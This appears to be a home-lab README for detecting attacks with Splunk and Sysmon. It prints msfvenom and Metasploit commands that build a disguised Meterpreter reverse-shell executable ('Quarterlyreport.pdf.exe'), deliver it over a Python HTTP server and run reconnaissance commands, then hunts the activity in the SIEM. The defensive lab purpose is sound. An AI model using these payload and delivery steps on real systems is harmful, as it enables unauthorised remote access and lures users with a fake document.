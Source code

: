 Objective

This Splunk Lab project was created to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a SIEM, generating test telemetry to mimic real-world attack scenarios.  
Skills Learned

[Bullet Points - Remove this afterwards]
Log Analysis
Advanced understanding of SIEM concepts and practical application.
Proficiency in analyzing and interpreting network logs.
Ability to generate and recognize attack signatures and patterns.
Enhanced knowledge of network protocols and security vulnerabilities.
Development of critical thinking and problem-solving skills in cybersecurity.
Tools Used
[Bullet Points - Remove this afterwards]

Security Information and Event Management (SIEM) system for log ingestion and analysis.
Network analysis tools (such as Wireshark) for capturing and examining network traffic.
Telemetry generation tools to create realistic network traffic and attack scenarios.
Steps
drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

Spin up TWO VMs, One being Windows and the other being Kali Linux. On both VMs set the network adapter to the Internal Network setting while making both VM IPs static to the same network. This network scheme was selected for security reasons to keep the VMs from being accessible from the open web, while also being able to communicate with each other.
The IP's in this lab are: Windows VM - 192.168.33.2, Kali VM - 192.168.33.3 
For this lab, we will open up the RDP port(3389) and turn off the firewall on our Windows VM

<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />

Ref 1: Virtual Box Settings

To set up our blue team environment on our Windows VM, we will be configuring Sysmon on the endpoint to gather event logs and send them directly to our Splunk instance, also installed on our Windows machine.
We did this by allocating a Sysmon config file from Github, copying it to the directory containing the Sysmon application, and running the command ./sysmon64.exe -i sysmonconfig.xml in Powershell.
Installing Sysmon will enhance our ability to capture system events.(Since I don't want to expose these VMs to the open web, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file directly into the VM.) 
For Splunk configuration, I installed the Sysmon add-on and created the "endpoint" index. Our Sysmon config file will point to the index we created by its name, allowing Sysmon to send logs to our Splunk instance


KALI SETUP
To create telemetry from our Kali VM to our Windows VM, we are going to use the well-known Metasploit pentesting tool.
We will start by creating the Malware payload with this command: msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool. 
"lhost", determines which IP this reverse shell payload will remote back to when executed.
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command found below inside the directory where the payload was saved to
python3 -m http.server 9999 
On our Windows machine we will search the IP of our Kali box followed by ":9999" which is the port designated in our Python command 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

After searching this, it will take us to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a GET request was logged
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali box 

ran multi/handler on msf exploit 
Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler
The session has been opened with our victim machine

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Now we will run the following commands to open up a shell and create network traffic to analyze in our Splunk instance
shell, netstat, ipconfig, net user, net group

Time to do some threat hunting in our Splunk instance
We will start by searching for our index indicated in our configuration files for Sysmon "endpoint"
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP 

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

After analyzing the event, we see that one of the events has a suspicious .exe file with two file extensions in the name
Luckily, we are running Sysmon, which allows the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to prevent this suspected RAT from accessing the network again.

